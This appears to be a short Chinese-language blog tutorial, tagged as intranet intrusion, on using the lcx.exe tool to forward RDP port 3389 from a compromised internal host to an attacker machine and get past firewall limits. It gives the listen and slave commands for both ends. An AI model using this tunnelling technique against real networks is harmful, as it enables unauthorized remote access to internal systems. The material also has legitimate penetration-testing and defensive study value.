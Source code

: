 ```yaml
---
layout: post
title: 使用lcx命令进行内端口转发
date: 2018-8-08
categories: blog
tags: [lcx,端口转发,入侵内网]
description: 。
---
```


# 概述
当局域网中的某台计算机仅仅开放了web服务，该服务仅能供内网用户访问，外网用户根本没法直接访问（防火墙规则限制等原因），我们使用lcx命令将想要访问的服务端口转发出来绕过限制，这在内网入侵的是够经常用到，特别是远程登录服务时

# lcx介绍
lcx.exe是一个端口转发工具，相当于把目标服务器A上的3389端口转发到具有外网IP地址的B机器上，这样链接B机的3389端口相当于链接A机的3389端口，lcx多用于计算机处于内网的情况下，虽然计算机可能中了木马，可以进行控制。但是远没有直接登录到3389远程到桌面来的方便

# 使用方法
## 1 确定被控制计算机的IP地址
ipconfig /all 查看网络配置情况

## 2 在攻击机上起监听端口
`lcx -listen 51 3389`此处的51端口是靶机上转发过来的，3389是攻击机直接要访问的端口，这块的目的是一些客户端程序中已经设定好默认端口号，比如远程桌面软件默认链接3389端口，链接时直接映射到51端口上就可以直接访问

## 3 在靶机上进行端口转发
因为靶机上直接访问的端口受限，故要将端口转发到其他可访问的远程端口上（前提是一定要与外网连通）
`lcx -slave 远程IP 远程端口 本地IP 本地端口`

## 4 攻击机进行连接
攻击机直接打开远程桌面进行连接，或者浏览器访问固定端口



